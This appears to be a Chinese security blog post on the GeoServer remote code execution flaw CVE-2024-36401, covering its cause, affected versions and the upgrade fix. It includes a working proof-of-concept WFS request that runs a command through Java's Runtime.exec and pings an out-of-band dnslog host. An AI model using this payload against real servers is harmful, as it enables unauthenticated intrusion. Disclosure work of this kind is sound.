 #  【成功复现】GeoServer 远程代码执行漏洞（CVE-2024-36401）   
cexlife  飓风网络安全   2024-07-04 20:51  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu01k2R94eKaibmP4ezUVxjZA1f21ll5ebsv6WmljjmUg5WFNKB9omMLyth9XMZprzb5Et6Qia4PhMnNg/640?wx_fmt=png&from=appmsg "")  
  
**漏洞描述:**  
  
GeoServer是一款开源地图服务器,主要用于发布、共享和处理各种地理空间数据,其依赖GeoTools库来处理地理空间数据,受影响版本的 GeoTools 库 API 在处理要素类型的属性名称时,会将这些属性名称不安全地传递给commons-jxpath库进行解析,且 commons-jxpath库在解析XPath 表达式时可以执行任意代码,导致未经身份验证的用户能够通过/geoserver/wfs 接口执行任意代码,在修复版本中,通过在 GeoTools 库中新增 JXPathUtils 类提供 newSafeContext 方法，该方法通过设置空的 FunctionLibrary 来创建禁止调用 Java 方法的 JXPathContext，防止在 XPath 表达式中调用任意 Java 方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu01k2R94eKaibmP4ezUVxjZA1lmiauicArpNbdQevlf7dEmVBXcVHBFOcmKp0lfgzusIYwZlUeINVjURw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu01k2R94eKaibmP4ezUVxjZA1G1EjpCfNnpYoGNBwB20icBHXFYTAvCibu3vbraL0Lvd4ibic22YSAmlbKg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu01k2R94eKaibmP4ezUVxjZA16F14Q5Dwgebd3apDoicM0sueuM7FKMllazVn7ozBz9oichVq0icRUppUA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu01k2R94eKaibmP4ezUVxjZA1zX4OsBOsML6DOMskoCe3jkV5e9C0EnaNC645wM7cBaZdic6eb0a3zQg/640?wx_fmt=png&from=appmsg "")  
  
**POC：**  
  
POST /wfs HTTP/1.1Host: ipContent-Type: application/xmlContent-Length: 336<wfs:GetPropertyValue service='WFS' version='2.0.0' xmlns:topp='http://www.openplans.org/topp' xmlns:fes='http://www.opengis.net/fes/2.0' xmlns:wfs='http://www.opengis.net/wfs/2.0' valueReference='exec(java.lang.Runtime.getRuntime(),"ping om9uxo.dnslog.cn")'>  <wfs:Query typeNames='topp:states'/></wfs:GetPropertyValue>  
  
**影响范围：**2.25.0 <= GeoServer < 2.25.22.24.0 <= GeoServer < 2.24.4GeoServer < 2.23.6**安全版本：**GeoServer 2.25.2  
  
GeoServer 2.24.4  
  
GeoServer 2.23.6  
###### 修复建议：  
  
升级至安全版本及其以上  
  
  
